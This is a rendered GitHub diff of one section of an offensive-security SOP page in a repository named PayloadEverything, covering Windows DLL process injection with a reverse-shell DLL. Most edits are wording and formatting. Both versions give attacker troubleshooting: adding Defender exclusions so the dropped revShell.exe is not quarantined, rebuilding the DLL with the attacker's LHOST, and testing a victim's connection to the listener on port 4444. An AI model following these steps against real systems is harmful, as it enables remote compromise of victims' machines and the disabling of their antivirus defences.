

Before and after one commit to m14r41/PayloadEverything, a Markdown page: thick-client/process-injection-2/sop.md, the part around one of its changes. Shown at 88% size. Rendered like a GitHub page.

````diff
--- a/thick-client/process-injection-2/sop.md
+++ b/thick-client/process-injection-2/sop.md
@@ -154,9 +145,10 @@ executed via CreateRemoteThread.
 
 Title bar: `Process Injection Successful!`
 
-### Failure examples (built-in guidance)
+### Failure examples with built-in guidance
 
 Invalid PID:
+
 ```
 [+] target
     - PID 999999 (resolving...)
@@ -171,48 +163,47 @@ Invalid PID:
       ...
 ```
 
-Arch mismatch — DLL won't load into target:
+Arch mismatch (DLL will not load into target):
+
 ```
 [!] failed   architecture mismatch: target is x86 (WOW64), DLL is x64
 [*] hint     rebuild the DLL for x86 (WOW64)
 ```
-*(Auto-recovers if a sibling DLL with the right arch sits in the same folder.)*
 
-Access denied — need Administrator:
+If a sibling DLL with the right arch sits in the same folder, pop auto-switches to it instead.
+
+Access denied (need Administrator):
+
 ```
 [!] failed   step [1] - ERROR_ACCESS_DENIED
 [*] hint     run cmd as Administrator, or pick a process you own
 ```
 
----
-
 ## 6. Troubleshooting
 
 | Symptom | Most likely cause | Fix |
 |---|---|---|
-| `[!] OpenProcess err 5` | Target process is higher integrity | Run cmd/pop as Administrator |
-| `[!] OpenProcess err 87` | PID doesn't exist / wrong digit | Use `pop_x64.exe --list` or inject by name |
-| `[!] CreateRemoteThread err 5` | EDR / Defender blocked remote-thread creation | Add a Defender folder exclusion for your Downloads path |
-| `[+] success` but **no shell lands** | Defender quarantined the dropped `revShell.exe` | `Add-MpPreference -ExclusionPath "$env:USERPROFILE"` from an Admin shell |
-| `[+] success` but no shell, AND `strings dll \| grep <IP>` shows nothing | LHOST in the DLL is wrong/empty — rebuild | On Kali: `rm build_revshell_dll.conf; ./build_revshell_dll.sh` and retype the IP carefully |
-| `HMODULE 0` from LoadLibraryA | DLL is wrong arch / missing dep / Defender ate it | Match arch with target; add Defender exclusion |
-| MessageBox doesn't appear | Target has no user32 loaded (console-only) OR session 0 isolation | Use `--spawn` or `--dll` instead |
+| `[!] OpenProcess err 5` | Target process is higher integrity | Run cmd or pop as Administrator |
+| `[!] OpenProcess err 87` | PID does not exist (wrong digit) | Use `pop_x64.exe --list` or inject by name |
+| `[!] CreateRemoteThread err 5` | EDR or Defender blocked remote-thread creation | Add a Defender folder exclusion for your Downloads path |
+| `[+] success` but no shell lands | Defender quarantined the dropped `revShell.exe` | From an Admin shell: `Add-MpPreference -ExclusionPath "$env:USERPROFILE"` |
+| `[+] success` but no shell, AND `strings dll \| grep <IP>` shows nothing | LHOST in the DLL is wrong or empty. Rebuild. | On Kali: `rm build_revshell_dll.conf; ./build_revshell_dll.sh` and retype the IP carefully |
+| `HMODULE 0` from LoadLibraryA | DLL is wrong arch, or has a missing dep, or Defender ate it | Match arch with target, or add Defender exclusion |
+| MessageBox does not appear | Target has no user32 loaded (console-only) or session 0 isolation | Use `--spawn` or `--dll` instead |
 
 ### Pre-injection sanity check (do this every time)
 
 ```bash
-# on attacker (Kali) - before shipping DLL to victim
+# on attacker (Kali), before shipping DLL to victim
 strings -a revshell_x64.dll | grep -E '192\.|10\.'
 # must print your real LHOST IP
 ```
 
 ```powershell
-# on victim - before injecting
+# on victim, before injecting
 Test-NetConnection <attacker_IP> -Port 4444
 # TcpTestSucceeded : True   means the DLL's connect() will reach the listener
 ```
-
----
 
 ## 7. File layout
 
````
Also changed, not shown: other parts of thick-client/process-injection-2/sop.md (+40 -53 lines).
